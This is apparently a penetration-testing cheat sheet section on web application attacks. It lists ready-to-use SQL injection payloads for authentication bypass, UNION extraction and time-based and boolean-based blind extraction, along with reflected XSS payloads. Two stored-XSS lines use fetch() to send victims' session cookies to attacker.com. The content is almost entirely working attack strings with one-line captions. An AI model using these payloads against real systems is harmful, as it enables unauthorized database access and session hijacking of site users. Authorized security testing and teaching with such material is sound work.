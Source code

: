 
## <a name="web"></a>Web Application Testing

### SQL Injection

**Basic SQL Injection**
```sql
' OR '1'='1' -- -
' OR 1=1 -- -
admin' --
' OR '1'='1
```
Bypass authentication using SQL injection.

**Union-Based SQLi**
```sql
' UNION SELECT version(),database(),user() -- -
' UNION SELECT @@version,@@datadir,user() -- -
' UNION SELECT NULL,table_name FROM information_schema.tables -- -
```
Extract database information via UNION queries.

**Time-Based Blind SQLi**
```sql
' AND SLEEP(5) -- -
' AND (SELECT * FROM (SELECT(SLEEP(5)))a) -- -
' OR SLEEP(5) -- -
```
Extract data through response time analysis.

**Boolean-Based Blind SQLi**
```sql
' AND 1=1 -- -
' AND 1=2 -- -
' AND SUBSTRING(version(),1,1)='5' -- -
```
Extract data through true/false responses.

### Cross-Site Scripting (XSS)

**Reflected XSS**
```html
\"><script>alert('XSS')</script>
\"><img src=x onerror=alert('XSS')>
\"><svg onload=alert('XSS')>
```
JavaScript injection into page output.

**Stored XSS**
```html
<script>fetch('http://attacker.com/log?cookie='+document.cookie)</script>
<img src=x onerror="fetch('http://attacker.com/'+btoa(JSON.stringify(document.cookie)))">
```
Persistent JavaScript execution.
